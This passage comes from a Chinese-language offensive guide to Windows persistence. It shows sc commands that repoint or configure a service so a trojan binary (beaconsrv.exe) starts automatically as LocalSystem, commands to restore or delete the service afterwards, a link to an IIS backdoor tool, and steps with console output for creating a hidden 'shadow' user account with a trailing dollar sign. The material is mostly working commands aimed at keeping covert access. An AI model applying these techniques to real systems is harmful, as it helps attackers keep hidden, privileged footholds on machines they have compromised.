 ```plaintext
C:\Users\123>SC qc ServicePrivilegeEscalation
[SC] QueryServiceConfig 成功

SERVICE_NAME: ServicePrivilegeEscalation
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Users\123\Desktop\beaconsrv.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Service Persistence
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

2.修改先有服务

找一个已禁用的服务，直接修改 binpath= 现有服务的可执行文件路径指向我们的木马，修改启动模式 start= 让其自启动，修改启动服务的用户 obj= 为 SYSTEM。

```plaintext
SC CONFIG ServicePrivilegeEscalation binpath= "\"E:\program files\sub dir\program name.exe\"" start= auto obj= "LocalSystem"
```

3.恢复原状

在不需要维持的时候，停止并删除服务。或者恢复原有配置。

```plaintext
sc stop ServicePrivilegeEscalation
sc delete ServicePrivilegeEscalation
```

#### 2.6.2 IIS⚒️

[https://github.com/0x09AL/IIS-Raid](https://github.com/0x09AL/IIS-Raid)

#### 2.6.3 SQL Server⚒️

### 2.7 Create Account

本小节来看看如何既达到隐藏一个通过 RID 劫持的账户，这样即可以隐藏账户又能获得管理员 Administrator 权限，不过 RID 劫持在实战中利用，默认配置下需要 SYSTEM 权限才能操作。

#### 2.7.1 Hidden Account

国内也叫影子账户，这个技术很古早，单拎出来也没多大用。

创建普通用户在用户名后面添加 Dollar 符号。

```plaintext
net user <account name>$ <password> /add
```

创建的 test 用户发现使用 net user 命令无法查询到。

```plaintext
PS C:\Users\123> net user

\\DESKTOP-AKRQV41 的用户帐户

-------------------------------------------------------------------------------
123                      Administrator            DefaultAccount
Guest                    root                     WDAGUtilityAccount
命令成功完成。

PS C:\Users\123> net user test$ 123123 /add
命令成功完成。

PS C:\Users\123> net user
```